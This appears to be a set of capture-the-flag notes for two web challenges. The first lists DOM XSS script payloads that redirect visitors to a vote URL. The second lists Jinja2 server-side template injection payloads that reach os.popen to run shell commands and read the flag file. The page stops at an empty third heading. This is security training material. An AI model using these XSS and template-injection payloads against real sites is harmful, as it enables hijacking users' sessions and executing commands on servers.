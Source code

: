 ### 1. vote challenge. 

>  Everyone can register and create their own profile. The main page has a public comment section. The comment will be DOM XSS enabled, and vote by calling your profile vote/ca463d3bf6f74c59bf757d500b1fcf89. A winner will be announced every 5 minutes. A flag will be printed on the profile with the most votes.

#### sample payloads. 
```
<script> document.location = 'http://localhost:1339/vote/ca463d3bf6f74c59bf757d500b1fcf89'</script>
function sleep(ms) {

    return new Promise(resolve => setTimeout(resolve, ms));

}
```

```
<script>
async function go(){

await sleep(20);

if (document.cookie.indexOf('user') > -1 ) {
  window.location.replace('http://localhost:1339/vote/be1c1a788bd04360924ccb53709a30eb');
}


}

go();
</script>
```


```
reamb<script>let uuid; for (let a of document.querySelectorAll("a")) { if(a.textContent.includes('reamb')) uuid = a.href.split('/')[4] }; location.href = '/vote/' + uuid</script>
```

### 2. ssti web
> payload should be no longer than 48 chars. 
#### sample payloads. 
http://localhost/ssti?query={{g.__class__.__base__.__subclasses__()[92]}}
```
url_for.__globals__.os.popen("ls").read()
{{url_for.__globals__.os.popen("od t*").read()}}
g.pop.__globals__.os.popen("od f*").read()   # reading flag
config.__init__.__globals__.os.popen("nl * | od -b").read()
```

 ### 3.
